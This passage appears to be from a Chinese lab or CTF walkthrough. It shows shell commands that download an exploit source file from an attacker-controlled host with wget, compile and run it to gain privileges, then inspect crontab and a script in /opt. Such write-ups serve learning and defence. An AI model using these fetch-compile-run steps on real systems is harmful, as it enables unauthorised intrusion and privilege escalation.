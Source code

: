 ```shell
wget http://192.168.32.145:80/37292.c
cc 37292.c
./a.out
whomai
```

![](img/Snipaste_2022-02-16_17-09-46.png)





看下脚本内容:

```shell
crontab -l
cat /opt/lmao.py
```

![](img/Snipaste_2022-02-16_17-19-23.png)
